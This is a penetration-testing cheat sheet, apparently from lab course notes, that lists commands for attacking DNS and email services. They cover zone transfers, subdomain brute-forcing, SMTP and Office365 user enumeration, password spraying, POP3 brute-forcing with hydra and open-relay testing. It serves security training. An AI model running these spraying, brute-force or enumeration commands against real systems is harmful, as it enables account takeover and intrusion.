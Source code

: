 
---
## Attacking DNS

|**Command**|**Description**|
|-|-|
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `subfinder -d inlanefreight.com -v` | Brute-forcing subdomains. |
| `host support.inlanefreight.com` | DNS lookup for the specified subdomain. |

---
## Attacking Email Services

|**Command**|**Description**|
|-|-|
| `host -t MX microsoft.com` | DNS lookup for mail servers for the specified domain. |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"` | DNS lookup for mail servers for the specified domain. |
| `host -t A mail1.inlanefreight.htb.` | DNS lookup of the IPv4 address for the specified subdomain. |
| `telnet 10.10.110.20 25` | Connect to the SMTP server. |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7` | SMTP user enumeration using the RCPT command against the specified host. |
| `python3 o365spray.py --validate --domain msplaintext.xyz` | Verify the usage of Office365 for the specified domain. |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz` | Enumerate existing users using Office365 on the specified domain. |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz` | Password spraying against a list of users that use Office365 for the specified domain. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3` | Brute-forcing the POP3 service. |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Testing the SMTP service for the open-relay vulnerability. |
